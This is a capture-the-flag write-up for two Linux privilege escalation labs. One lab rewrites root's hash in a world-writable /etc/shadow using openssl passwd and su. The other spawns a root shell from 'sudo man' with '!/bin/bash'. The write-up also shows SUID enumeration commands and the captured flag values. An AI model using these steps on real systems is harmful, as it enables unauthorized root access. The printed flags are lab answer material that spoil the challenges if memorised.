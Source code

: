 # 🔬Linux Privilege Escalation

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [Permissions Matter!](https://www.attackdefense.com/challengedetailsnoauth?cid=75)
>
> * Direct access to the target machine via `student` unprivileged user
> * Find specific **Linux Privilege escalation vulnerabilities manually**
> * Some files permissions are not set properly, use them to elevate privileges.

### Local Enumeration <a href="#local-enumeration" id="local-enumeration"></a>

<figure><img src="../../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

### Misconfigured Permissions Files <a href="#misconfigured-permissions-files" id="misconfigured-permissions-files"></a>

* Look for **world writable files**
  * _Find a file that could help to elevate privileges_

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

> ❗ `/etc/shadow` is writable by everyone!

```bash
ls -l /etc/shadow
cat /etc/shadow

# "root" user doesn't have a password specified
```

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation <a href="#privilege-escalation" id="privilege-escalation"></a>

* `/etc/shadow` stores the passwords in an encrypted format, so the `root` password need to be replaced with a hashed password

```bash
# Generate a password entry
openssl passwd -1 -salt abc password
	$1$v0N3U84r$mvHpbPX/9Zl.3YOSKjQ4p/

# Edit and paste the hashed password into the /etc/shadow file
vim /etc/shadow
```

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Switch to the `root` user

```bash
su
# type "password" password for "root" user
whoami

cd
ls
cat flag
```

<figure><img src="../../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
**Flag:** `e62ab67ddff744d60cbb6232feaefc4d`
{% endhint %}

***

## Lab 2

> 🔬 [Editing Gone Wrong](https://www.attackdefense.com/challengedetailsnoauth?cid=80)
>
> * Direct access to the target machine via `student` unprivileged user
> * Find **misconfigured `sudo` privileges**

### Local Enumeration <a href="#local-enumeration-1" id="local-enumeration-1"></a>

<figure><img src="../../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

### Misconfigured SUDO Privileges <a href="#misconfigured-sudo-privileges" id="misconfigured-sudo-privileges"></a>

* Find [`setuid`](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) programs

```bash
find / -user root -perm -4000 -exec ls -ldb {} \;
 
find / -perm -u=s -type f 2>/dev/null
```

<figure><img src="../../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

> 📌 Useful tool - [FallOfSudo](https://github.com/CyberOne-TeamARES/FallOfSudo)

* Identify what commands the `student` user can run

```basic
sudo -l
```

<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

> ❗ **`/usr/bin/man`** binary can be run _**with**** ****`SUDO`**** ****privileges, without providing a**** ****`root`**** ****user password**_

* This can happen on Linux systems for specific binaries that other users have to run with `SUDO` privileges. It looks _harmless_, but it can allow users to spawn bash privileged sessions, since **the specific binary can be utilized to execute specific commands**. Those commands are executed with the binary `root` privileges.

### Privilege Escalation <a href="#privilege-escalation-1" id="privilege-escalation-1"></a>

```bash
sudo man ls
```

* In the `man` scrolling page, using the **`!`** a `bash` can be spawned

```bash
!/bin/bash

# "root" bash sessions is received
```

<figure><img src="../../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

* Retrieve the flag with the **`root`** user

<figure><img src="../../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
**Flag:** `74f5cc752947ec8a522f9c49453b8e9a`
{% endhint %}
